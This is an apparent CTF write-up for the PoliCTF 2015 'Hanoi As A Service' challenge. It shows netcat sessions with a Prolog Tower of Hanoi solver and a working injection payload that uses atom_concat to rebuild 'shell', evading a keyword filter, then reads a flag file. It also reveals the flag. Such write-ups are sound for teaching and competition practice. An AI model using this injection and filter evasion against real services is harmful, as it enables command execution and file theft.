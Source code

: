 # PoliCTF 2015: Hanoi As A Service

**Category:** Pwnable
**Points:** 50
**Solves:** 191
**Description:**

> Check out our shiny new HaaS platform!
> nc haas.polictf.it 80

## Write-up

This pwnable is pretty simple, it seems to be a tower of hanoi solver. 
>```bash
>$ nc haas.polictf.it 80
> Welcome to the Hanoi-as-a-Service cloud platform!
> How many disks does your tower have?
> 3
> * Move top disk from a to b
> * Move top disk from a to c
> * Move top disk from b to c
> * Move top disk from a to b
> * Move top disk from c to a
> * Move top disk from c to b
> * Move top disk from a to b
>```

After messing around with it and looking up error codes it seems to be using prolog which is a logical programming language.

>```bash
>$ nc haas.polictf.it 80
> Welcome to the Hanoi-as-a-Service cloud platform!
> How many disks does your tower have?
>)
>ERROR: Prolog initialisation failed:
>ERROR: Syntax error: Illegal start of term
>ERROR: hanoi()
>ERROR: ** here **
>ERROR: ) . 
>```

Also there is a filter that terminates the session if anything os related is sent. After looking around on prolog functions, it turns out you can concatenate to atoms and use the call function on the result to by pass the filter.

>```bash
>% nc haas.polictf.it 80
>Welcome to the Hanoi-as-a-Service cloud platform!
>How many disks does your tower have?
>0), L = 'shel',K = 'l',atom_concat(L,K,M),call(M,'cat /home/ctf/haas/jhknsjdfhef_flag_here'), hanoi(0
>flag{Pr0gramm1ng_in_l0g1c_1s_c00l}
>```

## Other write-ups and resources

* <http://www.mrt-prodz.com/blog/view/2015/07/polictf-2015---hanoi-as-a-service-50pts-writeup>
* <https://ctf-team.vulnhub.com/polictf-2015-hanoi-as-a-service/>
